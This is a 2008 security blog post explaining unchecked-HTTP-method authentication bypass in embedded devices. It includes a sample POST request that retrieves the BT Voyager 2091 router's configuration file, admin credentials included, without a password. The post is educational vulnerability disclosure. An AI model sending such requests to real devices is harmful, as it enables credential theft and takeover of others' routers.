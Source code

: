 ```yaml
---
title: Holes In Embedded Devices Authentication Bypass (pt 3)
author: adrian-pastor
date: Sat, 16 Feb 2008 08:08:17 GMT
template: post.jade
---
```


We move on with the 3rd kind of authentication bypass bug. You may want to familiarize yourself with the previous two entries [here](/blog/holes-in-embedded-devices-authentication-bypass-pt-1) and [here](/blog/holes-in-embedded-devices-authentication-bypass-pt-2), before you continue.

## Unchecked HTTP methods

A device that is vulnerable to this issue, only performs an authentication check (i.e.: is the password being submitted with a request via basic authentication?) when the request is performed using a certain HTTP method. For instance, most devices have a feature to backup the config file which contains all the configuration settings including admin credentials. Let's say that when the admin user clicks on the "backup configuration" button, a GET request such as the following is submitted by the browser:

```http
GET /settings.cfg HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.0; en-GB; rv:1.8.1.11) Gecko/20071127 Firefox/2.0.0.11
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: en-gb,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Connection: Keep-Alive
Referer: http://192.168.1.1/router-settings/
Authorization: Basic YWRtaW46cGFzc3cwcmQ=
```

However, the logic of the device is flawed and allows attackers to save the config file without a password by changing the HTTP method from GET to POST. This very same vulnerability is [present](http://www.securityfocus.com/archive/1/440405) on the BT Voyager 2091 Wireless ADSL router which allows attackers to save the config file without providing username/password:

```http
POST /psiBackupInfo HTTP/1.1
Host: 192.168.1.1
Connection: close
Content-Length: 0
```
